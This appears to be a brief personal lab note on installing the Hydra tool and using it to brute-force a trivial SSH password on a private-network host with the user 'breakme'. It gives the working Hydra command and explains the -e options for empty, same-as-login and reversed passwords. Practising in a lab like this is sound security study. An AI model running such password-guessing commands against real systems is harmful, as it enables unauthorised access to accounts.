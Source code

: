 #### installation

```
sudo dnf install hydra
```

***

#### bruteforce trivial ssh passwords

This worked:
```
hydra -l breakme -e nsr 192.168.2.172 ssh
```
Password was cracked in 3 tries, but it was the same as the username.

**but it doesnt work when the password is not the same as the username...**

The "-e" option has three parameters:

```
s - try the login as password
n - try an empty password
r - reverse the login and try it as password
```

***
